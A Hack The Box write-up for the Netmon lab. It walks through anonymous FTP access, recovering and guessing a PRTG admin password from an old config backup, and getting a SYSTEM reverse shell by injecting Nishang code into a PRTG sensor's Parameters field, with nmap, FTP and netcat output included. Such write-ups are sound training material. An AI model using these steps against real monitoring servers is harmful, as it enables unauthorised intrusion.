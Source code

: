 ```yaml
---
title: Netmon - Hack The Box
excerpt: "I think Netmon had the quickest first blood on HTB yet. The user flag could be grabbed by just using anonymous FTP and retrieving it from the user directory. I guessed the PRTG admin password after finding an old backup file and changing the year in the password from 2018 to 2019. Once inside PRTG, I got RCE as SYSTEM by creating a sensor and using Nishang's reverse shell oneliner."
date: 2019-06-29
classes: wide
image: /assets/images/htb-writeup-netmon/netmon_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - ftp
  - prtg
  - powershell
  - nishang
  - config backups
---
```



I think Netmon had the quickest first blood on HTB yet. The user flag could be grabbed by just using anonymous FTP and retrieving it from the user directory. I guessed the PRTG admin password after finding an old backup file and changing the year in the password from 2018 to 2019. Once inside PRTG, I got RCE as SYSTEM by creating a sensor and using Nishang's reverse shell oneliner.

## Summary

- We can log in with anonymous FTP and get the `user.txt` flag directly from the Public user folder
- There's a PRTG configuration backup containing an old password that we can download from FTP
- The PRTG password is the almost the same as the one found in the old backup but it ends with `2019` instead of `2018`
- We can get RCE using Powershell scripts running as sensors in PRTG

## Detailed steps

### Nmap scan

The nmap scan shows that anonymous FTP is allowed and that PRTG is running on the webserver.

```
# nmap -sC -sV -F 10.10.10.152
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-02 22:43 EST
Nmap scan report for netmon.htb (10.10.10.152)
Host is up (0.0090s latency).
Not shown: 95 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Free flag from FTP

In the nmap scan, the script identified that the FTP server allows anonymous access. Because we're not constrained to `ftproot` and we can look around the entire disk of the box, I quickly found a `user.txt` flag in the `c:\users\public` folder.

```
# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd /users/public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> type binary
200 Type set to I.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
33 bytes received in 0.01 secs (4.5173 kB/s)
ftp> exit
221 Goodbye.

root@ragingunicorn:~/htb/netmon# cat user.txt
dd58c...
```

I was too slow for first blood, someone else on HTB got user blood in under 2 minutes.

### Getting access to PRTG

The PRTG application is running on port 80:

![](/assets/images/htb-writeup-netmon/prtg_login.png)

I tried the default credentials `prtgadmin` / `prtgadmin` but I got access denied.

Looking in the filesystem, I found that the configuration directory for PRTG is under `c:\programdata\paessler`.

```
ftp> cd /programdata
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:15PM       <DIR>          Licenses
11-20-16  09:36PM       <DIR>          Microsoft
02-02-19  11:18PM       <DIR>          Paessler
```

I found the configuration file and an old configuration from last year.

```
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
[...]
02-25-19  09:54PM              1189697 PRTG Configuration.dat
03-02-19  05:33PM              1198465 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
```

The `PRTG Configuration.dat` config file contains the credentials for user `prtgadmin` but they are encrypted (or hashed?) with what seems to be a proprietary method.

![](/assets/images/htb-writeup-netmon/prtg_new_creds.png)

When I checked `PRTG Configuration.old.bak`, I found the dbpassword: `PrTg@dmin2018`

![](/assets/images/htb-writeup-netmon/prtg_old_creds.png)

I tried this password with user `prtgadmin` on the PRTG login page but it didn't work. Then I realized that this is from a 2018 backup, maybe the admin is lazy and re-used the dbpassword for the admin account and simply used the current date (2019).

My guess was correct and I was able to log in with password `PrTg@dmin2019`

![](/assets/images/htb-writeup-netmon/prtg_mainpage.png)

### RCE through PRTG sensors

PRTG is a monitoring tool that supports a whole suite of sensors, like ping, http, snmp, etc. The server itself has been added in the device list, so it's safe to assume we can add sensors to it:

![](/assets/images/htb-writeup-netmon/prtg_devices.png)

I clicked add sensor on the 10.10.10.152 server then selected `EXE/Script sensor`.

![](/assets/images/htb-writeup-netmon/prtg_exe.png)

We can't add powershell custom scripts because we don't have write access to the application directory, but we can leverage the `Parameters` field to add additional code at the end of an existing Powershell script. I used Nishang to get a reverse shell. I added a semi colon at the beginning of the parameters, then pasted the Nishang code after.

![](/assets/images/htb-writeup-netmon/prtg_rce.png)

After the sensor is created, we hit the play button to execute it.

![](/assets/images/htb-writeup-netmon/prtg_rce2.png)

And we get a shell as `nt authority\system`. Box done!

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.152] 55751

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> type c:\users\administrator\desktop\root.txt
30189...
```